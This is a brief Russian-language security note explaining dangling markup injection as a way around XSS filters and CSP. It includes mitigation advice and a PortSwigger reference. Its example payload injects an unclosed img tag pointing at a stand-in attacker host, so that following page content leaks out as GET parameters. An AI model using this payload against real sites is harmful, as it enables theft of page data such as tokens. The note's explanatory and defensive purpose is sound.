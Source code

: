 # \[висячая разметка] Dangling markup injection

## About

Эта техника помогает в ситуациях, когда обычная XSS невозможна из-за фильтров.

## Пример

Пусть мы можем влиять на контент в `<input>`, однако, по какой-то причине XSS не можем встроить - она не отрабатывает (например, из-за CSP):

```
<input type="text" name="input" value="CONTROLLABLE DATA HERE
```

В этом случае мы можем встроить следующий код:

```
"><img src='//attacker-website.com?
```

В этом случае (мы специально не закрываем апостроф), все данные, что попадут между `'` , будут отправлены на наш сервер в виде GET-параметров.

## Mitigation

* Здесь помогут те же меры, что и против  XSS
* Использовать CSP. Например, для ограничений по загрузке ресурсов через тег img.

## Papers

Основная статья: [https://portswigger.net/web-security/cross-site-scripting/dangling-markup](https://portswigger.net/web-security/cross-site-scripting/dangling-markup)

